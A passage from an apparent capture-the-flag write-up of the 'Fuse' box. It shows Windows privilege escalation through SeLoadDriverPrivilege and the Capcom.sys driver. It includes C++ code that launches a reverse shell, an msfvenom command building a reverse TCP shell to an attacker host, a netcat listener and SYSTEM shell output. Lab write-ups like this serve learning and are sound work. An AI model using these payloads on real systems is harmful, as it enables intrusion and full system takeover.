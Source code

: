 ```
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\Temp\\rev53.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

 I compiple the above, but get an error for the stdfax library.  I've run into this before in Python where a library is deprecated or included in another, so I decide to remove it.  Worst case scenario, I'll add it back and search the interwebs for help.  It complies!  Next I load 3 files (capcom.sys, the loader EXE, and the exploit exe) code to my VM.  Side bar: stop what you are doing and make a shared folder between your host and pen testing VM.  You'll thank me later.
 
 Now I have to create my reverse shell payload.  Nothing fancy here, standard reverse shell EXE:
 
 > msfvenom -p windows/shell_reverse_tcp lhost=10.10.10.10 lport=53 -f exe > rev53.exe
 
 Now I transfer 4 files over to Fuse's c:\Windows\Temp: capcom.sys, the loader EXE, the Exploit EXE, and the reverse shell EXE.  Run the loader... ok, time to run the exploit EXE and see if this works!  Wait, set up a listener on 53:
 
 ```
 nc -nlvp 53
listening on [any] 53 ...
```

Cross your fingers and run the exploit!

 ```
 connect to [10.10.14.33] from (UNKNOWN) [10.10.10.193] 63498
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\windows\temp>whoami
whoami
nt authority\system
```

VICTORY!  Wow, what a fun box!  I learned a lot for sure.  I add another page in my cheat sheet for Windows privsec outlining what I did above with capcom and the SELoadDriverPrivilege.  Other than not finishing that directory brute force, I am pretty happy with myself on this box.  I was much more confident this time on the privesc and sometimes a little of that will carry you through!
